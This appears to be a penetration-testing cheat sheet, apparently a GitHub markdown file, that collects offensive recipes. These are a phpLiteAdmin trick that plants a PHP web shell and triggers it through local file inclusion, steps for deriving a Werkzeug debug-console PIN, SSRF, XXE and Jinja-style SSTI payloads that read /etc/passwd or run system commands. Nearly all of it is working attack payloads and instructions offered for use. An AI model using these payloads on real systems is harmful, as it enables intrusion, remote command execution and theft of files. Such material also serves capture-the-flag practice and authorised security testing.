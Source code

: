 ### code injection with phpliteadmin
* create a new database with name anything.php
* create new table name as shell with number of field 1
* 1 variable be name shell, type TEXT and default value <?php system($_GET[cmd])?> 
* trigger it with LFI, the file probably in /var/tmp/anything.php
* use with &cmd=command

### wekzeug console pin exploit
[Exploit guide](https://www.daehee.com/werkzeug-console-pin-exploit/)
``` bash
# copy the exploit script and fill in all public and private bits
# getattr(mod, '__file__', None) is the absolute path of an app.py in the flask directory(see traceback)
# mac address = /sys/class/net/eth0/address
echo MAC | tr -d ":" #get the correct format
python -c 'print(0xFORMMATED_STRING)'#get the decimal value of the address
# For machine_id, check either
/etc/machine-id
/proc/sys/kernel/random/boot_id
# cgroup value
/proc/self/cgroup
#append the cgroup id to machine id
#then run the script to get PIN
#might have to change the hash type if the created PIN is incorrect
```

### SSRF to LFI
[SSRF to LFI](http://hassankhanyusufzai.com/SSRF-to-LFI/)
```bash
# Payload to check if the app vulnerable to SSRF
http://localhost:HTTP_PORT
# If it has a valid respond
file:///etc/passwd
```

### XXE
[detail guide](https://portswigger.net/web-security/xxe)

Example paylaod
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <user>&xxe;</user>
    <pass>mypass</pass>
</creds>
```

### Python SSTI
```python
{% import os %}{{os.system('PAYLOAD')}} 
```
